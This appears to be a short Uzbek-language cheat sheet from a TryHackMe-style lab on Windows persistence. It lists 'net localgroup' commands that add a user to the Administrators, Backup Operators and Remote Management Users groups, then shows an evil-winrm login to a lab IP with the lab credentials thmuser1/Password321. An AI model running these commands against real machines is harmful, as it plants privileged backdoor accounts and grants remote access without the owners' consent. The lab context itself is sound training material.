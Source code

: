 # Bo'rimiz, gohida qo'yni maskasini ham kiyishimizga to'g'ri keladi)

### Userni Guruhlarga qo'shish
Adminlar gruppasiga:
```
net localgroup administrators __username__ /add
```

BackUp gruppasiga:
```
net localgroup "Backup Operators" __username__ /add
```

Remote management group:
```
net localgroup "Remote Management Users" __username__ /add
```

### Userga ulanish:
```
evil-winrm -i 10.10.187.100 -u thmuser1 -p Password321
```
Agar o'rnatilmagan bo'lsa, Arch uchun buyruq:
```
sudo pacman -S evil-winrm
```
